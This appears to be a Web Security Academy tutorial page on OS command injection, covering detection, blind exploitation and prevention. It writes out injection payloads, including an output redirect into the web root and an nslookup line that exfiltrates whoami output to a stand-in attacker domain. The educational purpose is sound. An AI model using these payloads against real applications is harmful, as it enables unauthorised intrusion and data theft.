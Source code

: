1. [Web Security Academy](/web-security)  
2. [OS command injection](/web-security/os-command-injection)  
  
# OS command injection  
  
In this section, we explain what OS command injection is, and describe how vulnerabilities can be detected and exploited. We also show you some useful commands and techniques for different operating systems, and describe how to prevent OS command injection.   
![OS command injection](os-command-injection.svg)  
  
#### Labs  
  
If you're familiar with the basic concepts behind OS command injection vulnerabilities and want to practice exploiting them on some realistic, deliberately vulnerable targets, you can access labs in this topic from the link below.   
  
1. [View all OS command injection labs](/web-security/all-labs#os-command-injection)  
  
## What is OS command injection?  
  
OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.   
  
## Injecting OS commands  
  
In this example, a shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL:   
`https://insecure-website.com/stockStatus?productID=381&storeID=29`  
To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:   
`stockreport.pl 381 29`  
This command outputs the stock status for the specified item, which is returned to the user.   
The application implements no defenses against OS command injection, so an attacker can submit the following input to execute an arbitrary command:   
`& echo aiwefwlguh &`  
If this input is submitted in the `productID` parameter, the command executed by the application is:   
`stockreport.pl & echo aiwefwlguh & 29`  
The `echo` command causes the supplied string to be echoed in the output. This is a useful way to test for some types of OS command injection. The `&` character is a shell command separator. In this example, it causes three separate commands to execute, one after another. The output returned to the user is:   
`Error - productID was not provided aiwefwlguh 29: command not found`  
The three lines of output demonstrate that:   
  
1. The original `stockreport.pl` command was executed without its expected arguments, and so returned an error message. 
2. The injected `echo` command was executed, and the supplied string was echoed in the output. 
3. The original argument `29` was executed as a command, which caused an error.   
Placing the additional command separator `&` after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.   
LAB  
APPRENTICE [OS command injection, simple case](/web-security/os-command-injection/lab-simple)  
  
## Useful commands  
  
After you identify an OS command injection vulnerability, it's useful to execute some initial commands to obtain information about the system. Below is a summary of some commands that are useful on Linux and Windows platforms:   
Purpose of command  |  Linux  |  Windows   
---|---|---  
Name of current user  | ` whoami ` | ` whoami `  
Operating system  | ` uname -a ` | ` ver `  
Network configuration  | ` ifconfig ` | ` ipconfig /all `  
Network connections  | ` netstat -an ` | ` netstat -an `  
Running processes  | ` ps -ef ` | ` tasklist `  
  
## Blind OS command injection vulnerabilities  
  
Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.   
As an example, imagine a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details:   
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`  
The output from the `mail` command (if any) is not returned in the application's responses, so using the `echo` payload won't work. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.   
  
### Detecting blind OS command injection using time delays  
  
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:   
`& ping -c 10 127.0.0.1 &`  
This command causes the application to ping its loopback network adapter for 10 seconds.   
LAB  
PRACTITIONER [Blind OS command injection with time delays](/web-security/os-command-injection/lab-blind-time-delays)  
  
### Exploiting blind OS command injection by redirecting output  
  
You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:   
`& whoami > /var/www/static/whoami.txt &`  
The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.   
LAB  
PRACTITIONER [Blind OS command injection with output redirection](/web-security/os-command-injection/lab-blind-output-redirection)  
  
### Exploiting blind OS command injection using out-of-band (OAST) techniques  
  
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:   
`& nslookup kgji2ohoyw.web-attacker.com &`  
This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.   
LAB  
PRACTITIONER [Blind OS command injection with out-of-band interaction](/web-security/os-command-injection/lab-blind-out-of-band)  
The out-of-band channel provides an easy way to exfiltrate the output from injected commands:   
`& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`  
This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command:   
`wwwuser.kgji2ohoyw.web-attacker.com`  
LAB  
PRACTITIONER [Blind OS command injection with out-of-band data exfiltration](/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)  
  
## Ways of injecting OS commands  
  
You can use a number of shell metacharacters to perform OS command injection attacks.   
A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:   
  
1. `&`
2. `&&`
3. `|`
4. `||`  
The following command separators work only on Unix-based systems:   
  
1. `;`
2. Newline (`0x0a` or `\n`)   
On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:   
  
1. ``` injected command ```
2. `$(` injected command `)`  
The different shell metacharacters have subtly different behaviors that might change whether they work in certain situations. This could impact whether they allow in-band retrieval of command output or are useful only for blind exploitation.   
Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.   
  
## How to prevent OS command injection attacks  
  
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In almost all cases, there are different ways to implement the required functionality using safer platform APIs.   
If you have to call out to OS commands with user-supplied input, then you must perform strong input validation. Some examples of effective validation include:   
  
1. Validating against a whitelist of permitted values. 
2. Validating that the input is a number. 
3. Validating that the input contains only alphanumeric characters, no other syntax or whitespace.   
Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.   
  
#### Read more

1. [Find OS command injection vulnerabilities using Burp Suite's web vulnerability scanner](/burp/vulnerability-scanner)
2. [Read PortSwigger Research's writeup of the Hunting Asynchronous Vulnerabilities presentation from 44Con and BSides Manchester](https://portswigger.net/research/hunting-asynchronous-vulnerabilities)
